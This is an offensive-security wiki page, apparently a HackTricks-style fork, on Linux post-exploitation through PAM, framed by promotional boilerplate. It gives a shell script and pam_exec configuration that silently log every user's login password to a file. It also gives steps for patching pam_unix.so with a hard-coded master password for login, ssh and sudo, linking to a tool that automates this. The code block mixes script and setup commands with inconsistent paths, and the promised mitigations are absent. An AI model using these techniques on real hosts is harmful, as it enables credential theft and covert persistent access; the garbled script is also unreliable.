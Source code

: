 # Linux Post-Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**For further details check the [original post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. This is just a summary:

**Technique Overview:**
Pluggable Authentication Modules (PAM) offer flexibility in managing authentication on Unix-based systems. They can enhance security by customizing login processes but also pose risks if misused. This summary outlines a technique to capture login credentials using PAM, alongside mitigation strategies.

**Capturing Credentials:**
- A bash script named `toomanysecrets.sh` is crafted to log login attempts, capturing the date, username (`$PAM_USER`), password (via stdin), and remote host IP (`$PAM_RHOST`) to `/var/log/toomanysecrets.log`.
- The script is made executable and integrated into the PAM configuration (`common-auth`) using the `pam_exec.so` module with options to run quietly and expose the authentication token to the script.
- The approach demonstrates how a compromised Linux host can be exploited to log credentials discreetly.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```

### Backdooring PAM

**For further details check the [original post](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. This is just a summary:

The Pluggable Authentication Module (PAM) is a system used under Linux for user authentication. It operates on three main concepts: **username**, **password**, and **service**. Configuration files for each service are located in the `/etc/pam.d/` directory, where shared libraries handle authentication.

**Objective**: Modify PAM to allow authentication with a specific password, bypassing the actual user password. This is particularly focused on the `pam_unix.so` shared library used by the `common-auth` file, which is included by almost all services for password verification.

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
   - The line responsible for checking a user's password calls `pam_unix.so`.
2. **Modify Source Code**:
   - Add a conditional statement in the `pam_unix_auth.c` source file that grants access if a predefined password is used, otherwise, it proceeds with the usual authentication process.
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
   - Access is granted across various services (login, ssh, sudo, su, screensaver) with the predefined password, while normal authentication processes remain unaffected.

{% hint style="info" %}
You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
